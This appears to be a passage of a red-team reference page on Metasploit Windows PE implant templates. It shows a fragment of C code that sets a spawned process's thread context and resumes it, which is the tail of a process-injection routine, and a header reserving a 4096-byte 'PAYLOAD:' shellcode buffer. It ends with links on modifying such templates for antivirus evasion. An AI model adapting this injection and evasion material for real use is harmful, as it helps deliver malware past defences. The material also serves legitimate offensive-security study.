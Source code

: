 ```c
	#endif

			SetThreadContext(pi.hThread,&ctx);

			ResumeThread(pi.hThread);
			CloseHandle(pi.hThread);
			CloseHandle(pi.hProcess);
		}
	}
	ExitThread(0);
}
```

- Header source code

```c
#ifndef SCSIZE
#define SCSIZE 4096
#endif
unsigned char code[SCSIZE] = "PAYLOAD:";
char szSyncNameS[MAX_PATH] = "Local\\Semaphore:Default\0";
char szSyncNameE[MAX_PATH] = "Local\\Event:Default\0";
```

---
## References

### Implants

- [Rapid7: Metasploit Framework PE Templates Source](https://github.com/rapid7/metasploit-framework/tree/master/data/templates/src/pe/exe)

### How to Modify Implant Templates

- [Red Team Notes: AV Bypass with Metasploit Templates and Custom Binaries](https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates)

- [Modifying Metasploit x64 template for AV evasion](http://blog.packetheader.net/2015/10/modifying-metasploit-x64-template-for_29.html)

- [Black Hills Information Security: Modifying Metasploit x64 template for AV evasion](https://www.blackhillsinfosec.com/modifying-metasploit-x64-template-for-av-evasion/)

### Presentations

- [ATTL4S: UNDERSTANDING A PAYLOAD’S LIFE](https://attl4s.github.io/assets/pdf/Understanding_a_Payloads_Life.pdf)

### Videos

- [2 - [English] Understanding a Payload's Life - Payload Generation](https://www.youtube.com/watch?v=QlDi80i92BA)

- [3 - [English] Understanding a Payload's Life - Payload Executables](https://www.youtube.com/watch?v=ne80hhaxau0)